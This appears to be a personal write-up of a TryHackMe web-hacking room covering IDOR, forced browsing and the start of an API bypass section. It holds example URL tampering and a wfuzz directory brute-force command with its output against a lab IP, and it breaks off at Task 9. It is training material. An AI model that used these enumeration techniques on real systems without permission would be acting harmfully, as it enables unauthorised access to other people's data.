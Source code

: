 # Room
https://tryhackme.com/room/zthweb2

# Task 1 - Intro
Topics
* IDOR
* Forced Browsing
* API based Authentication Bypass

# Task 2 - IDOR - Intro
IDOR = Insecure Direct Object Reference.  Exploit a misconfiguration in the way user input is handled in order to gain access to resources you normally wouldn't have access to.

Example
* Changing 1234 in the following URL to 1235 and accessing another account
    ```
    https://example.com/bank?account_number=1234
    ```

# Task 3 - IDOR - Exploitation
Example
* Changing 1 in the following URL to 2 and accessing another note
    ```
    https://example.com/note.php?note=1
    ```

# Task 4 - IDOR - Challenge
Exploit the IDOR and get the flag
```
http://10.10.76.232/note.php?note=
```

# Task 5 - Forced Browsing - Intro
Forced Browsing is similar to IDOR, in addition we add automated tools like wfuzz for the URL to find more things we shouldn't have access to
```
https://example.com/user1/note.txt

https://example.com/user2/note.txt

https://example.com/admin/note.txt

https://example.com/superman/note.txt
```

# Task 6 - Forced Browsing - Manual Exploitation
Examples
```
https://example.com/user1/note.txt

https://example.com/user2/note.txt

https://example.com/admin/note.txt

https://example.com/superman/note.txt
```

# Task 7 - Forced Browsing - Automatic Exploitation
Tools
* wfuzz
* dirsearch

wfuzz
* -c - output in color
* -z - specifies what will replace the FUZZ variable
* --hc - don't show certain HTTP response codes
* --hl - don't show a certain amount of lines in the response
* --hh - don't show a certain amount of words

Install wfuzz
```
pip3 install wfuzz
```

# Task 8 - Forced Browsing - Challenge
Use wfuzz to find the user
```
wfuzz --hc 404 -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.79.80:81/FUZZ/note.txt
 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.79.80:81/FUZZ/note.txt
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                            
=====================================================================

000000001:   200        14 L     28 W       242 Ch      "# directory-list-2.3-medium.txt"                                                  
000000007:   200        14 L     28 W       242 Ch      "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                  
000000002:   200        14 L     28 W       242 Ch      "#"                                                                                
000000003:   200        14 L     28 W       242 Ch      "# Copyright 2007 James Fisher"                                                    
000000009:   200        14 L     28 W       242 Ch      "# Suite 300, San Francisco, California, 94105, USA."                              
000000006:   200        14 L     28 W       242 Ch      "# Attribution-Share Alike 3.0 License. To view a copy of this"                    
000000010:   200        14 L     28 W       242 Ch      "#"                                                                                
000000005:   200        14 L     28 W       242 Ch      "# This work is licensed under the Creative Commons"                               
000000004:   200        14 L     28 W       242 Ch      "#"                                                                                
000000008:   200        14 L     28 W       242 Ch      "# or send a letter to Creative Commons, 171 Second Street,"                       
000000012:   200        14 L     28 W       242 Ch      "# on atleast 2 different hosts"                                                   
000000011:   200        14 L     28 W       242 Ch      "# Priority ordered case sensative list, where entries were found"                 
000000013:   200        14 L     28 W       242 Ch      "#"                                                                                
000000466:   200        1 L      1 W        20 Ch       "[removed]"                                                                         
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 0
Processed Requests: 796
Filtered Requests: 782
Requests/sec.: 0
```

# Task 9 - API Bypassing - Intro
